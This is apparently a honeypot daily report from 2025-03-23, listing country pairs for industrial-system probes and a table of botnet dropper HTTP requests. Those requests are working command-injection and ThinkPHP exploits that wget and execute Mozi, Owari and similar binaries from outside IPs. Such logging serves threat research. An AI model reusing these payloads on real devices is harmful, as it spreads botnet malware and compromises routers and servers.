 ```yaml
---
title: "Report: 2025-03-23 "
date: 2025-03-23
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-23
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Singapore          |
| FR               | Dubai              |
| US               | Dubai              |
| PT               | Dubai              |
| CN               | Georgia            |
| LT               |                    |
| GB               |                    |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                         |
|:----------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 1.20.91.26      | GET /shell?cd+/tmp;rm+-rf+*;wget+http://1.20.91.26:36758/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                      |
| 112.248.114.104 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://112.248.114.104:55682/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                  |
| 187.189.193.240 | GET /shell?cd+/tmp;rm+-rf+*;wget+ http://157.245.200.182/Binarys/Nyx4r.arm;chmod+777+/tmp/Nyx4r.arm;sh+/tmp/Nyx4r.arm arm4.jaws HTTP/1.1                                                                                        |
| 45.135.193.4    | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20killua.arm7%3B%20wget%20http%3A%2F%2F176.65.138.28%2Fkittylover321%2Fkillua.arm7%3B%20chmod%20777%20%2A%3B%20.%2Fkillua.arm7%20tbk HTTP/1.1 |
| 180.153.27.22   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1   |
| 101.69.248.251  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1   |
| 118.254.150.10  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1   |
| 58.58.30.134    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1   |
| 211.143.108.124 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1   |
| 31.170.22.205   | GET /cgi-bin/live_api.cgi?page=satellite_list&id=&ip=$(chmod+777+/tmp;cd+/tmp;wget+http://31.170.22.205/dl18;sh+dl18) HTTP/1.1                                                                                                  |
| 58.146.59.84    | GET /shell?cd+/tmp;rm+-rf+*;wget+ http://200.129.143.6/Binarys/Owari.arm;chmod+777+/tmp/Owari.arm;sh+/tmp/Owari.arm arm4.jaws HTTP/1.1                                                                                          |
| 186.30.92.187   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1   |
